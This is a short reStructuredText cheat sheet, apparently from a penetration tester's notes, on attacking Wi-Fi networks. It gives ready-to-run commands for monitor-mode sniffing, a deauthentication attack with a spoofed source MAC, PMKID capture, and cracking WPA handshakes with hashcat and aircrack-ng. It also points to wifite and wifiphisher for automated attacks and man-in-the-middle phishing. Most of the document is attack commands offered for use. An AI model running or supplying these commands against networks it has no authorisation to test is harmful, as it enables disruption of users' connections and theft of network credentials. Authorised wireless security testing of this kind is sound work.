 ####
Wifi
####

Sniffing
=========

.. code-block:: bash

  airmon-ng start wlp2s0
  airodump-ng -a -c <channel> --essid <ssid> -w mydump wlp2s0mon
  airodump-ng -a -c <channel> --bssid <ap_mac> -w mydump wlp2s0mon

Deauth attack
=============

.. code-block:: bash

  aireplay-ng --deauth 1 -a <ap_mac> -c <client_mac> -h <spoof_src_mac> wlp2s0mon

PMKID attack
============

.. code-block:: bash

  hcxdumptool -o mydump.pcap -i wlp2s0 --enable_status=3
  hcxpcaptool -z test.16800 mydump.pcap

Cracking
========

* hashcat and dictionary attack

.. code-block:: bash

  hcxpcapngtool ~/balle.pcap-01.cap -o test.16800
  hashcat -m 22000 -w 3 test.16800 mydict.txt

* Bruteforce attack

.. code-block:: bash

  hashcat -m 16800 test.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'

* Hybrid wordlist and bruteforce

.. code-block:: bash

  hashcat -m 22000 -w 3 -a 7 -o cracked.txt test.16800 '?d?d?d?d?s' mydict.txt

* Or using aircrack

.. code-block:: bash

  aircrack-ng -w rockyou.txt mydump.pcap

* For possible default password generators
** https://hashcat.net/forum/thread-6170.html
** https://deadcode.me/blog/2016/07/01/UPC-UBEE-EVW3226-WPA2-Reversing.html

* And to generate a wordlist depending on a homepage

.. code-block:: bash

  cewl -d 4 -m 8 <url> -w wordlist.txt


Automated security check
========================

* wifite is your friend
* but manual checks are still better ;)


Man in the middle
=================

* Use wifiphisher

